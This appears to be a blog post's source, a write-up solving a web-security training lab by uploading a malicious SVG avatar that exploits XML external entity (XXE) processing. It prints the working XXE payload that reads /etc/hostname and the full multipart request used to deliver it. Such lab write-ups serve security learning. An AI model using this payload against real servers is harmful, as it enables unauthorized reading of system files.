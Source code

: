 ```yaml
---
layout: post
title:  "Exploiting XXE via image file upload"
date:   2024-11-22 10:20:54 +0530
categories: [BSCP, XXE]
---
```


## Objective 

This lab lets users attach avatars to comments and uses the `Apache Batik library` to process avatar image files.

To solve the lab, upload an image that displays the contents of the `/etc/hostname` file after processing. Then use the `"Submit solution"` button to submit the value of the server hostname. 

## Solution 

In the add comment functionality, we have functionality to upload an avatar in it.. so what I did created a sample svg payload with a XXE

```xml 
<?xml version="1.0" standalone="yes"?><!DOCTYPE ernw [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]><svg width="500px" height="100px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1"><text font-family="Verdana" font-size="16" x="10" y="40">&xxe;</text></svg>
```

Then now I uploaded the avatar, entered some random input data with fields and here is how the request looks like 

```sh
POST /post/comment HTTP/2
Host: 0ae3005504821ddf8173482f00530041.web-security-academy.net
Cookie: session=kCubHHWI2AsgPEsAJ2jtREgDZ7lPkyY9
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:132.0) Gecko/20100101 Firefox/132.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: multipart/form-data; boundary=---------------------------281221630236770022421711560835
Content-Length: 1267
Origin: https://0ae3005504821ddf8173482f00530041.web-security-academy.net
Referer: https://0ae3005504821ddf8173482f00530041.web-security-academy.net/post?postId=5
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers
Connection: keep-alive

-----------------------------281221630236770022421711560835
Content-Disposition: form-data; name="csrf"

q61g7AQxxt26b6WYtNE3LftMyLV4qn7x
-----------------------------281221630236770022421711560835
Content-Disposition: form-data; name="postId"

5
-----------------------------281221630236770022421711560835
Content-Disposition: form-data; name="comment"

test
-----------------------------281221630236770022421711560835
Content-Disposition: form-data; name="name"

test
-----------------------------281221630236770022421711560835
Content-Disposition: form-data; name="avatar"; filename="poc.svg"
Content-Type: image/svg+xml

<?xml version="1.0" standalone="yes"?><!DOCTYPE ernw [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]><svg width="500px" height="100px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1"><text font-family="Verdana" font-size="16" x="10" y="40">&xxe;</text></svg>

-----------------------------281221630236770022421711560835
Content-Disposition: form-data; name="email"

test@test.com
-----------------------------281221630236770022421711560835
Content-Disposition: form-data; name="website"

https://test.com
-----------------------------281221630236770022421711560835--
```

After posting the comment, avatar will be uploaded in particular path which will actually get discloses in `View source` page of posted comment 

![]({{ site.baseurl }}/assets/images/xxe/xxe-12.png)

Opening the uploaded avatar, reveals the `hostname` here 

![]({{ site.baseurl }}/assets/images/xxe/xxe-13.png)

Submit the hostname as a solution through `Submit solution` button and that solves the lab 

![]({{ site.baseurl }}/assets/images/xxe/xxe-14.png)